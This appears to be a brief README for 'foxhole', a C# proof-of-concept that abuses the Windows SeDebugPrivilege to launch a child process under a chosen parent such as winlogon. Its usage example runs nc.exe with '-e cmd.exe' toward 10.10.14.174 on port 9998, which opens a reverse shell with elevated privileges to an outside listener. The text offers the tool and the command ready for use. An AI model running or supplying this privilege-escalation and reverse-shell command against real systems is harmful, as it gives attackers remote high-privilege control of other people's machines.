 # foxhole
This C# code creates child process of parent process that you determine (SeDebugPrivelege PoC)
Usage example:
.\sepoc.exe -p winlogon -c "c:\temp\nc.exe 10.10.14.174 9998 -e cmd.exe"

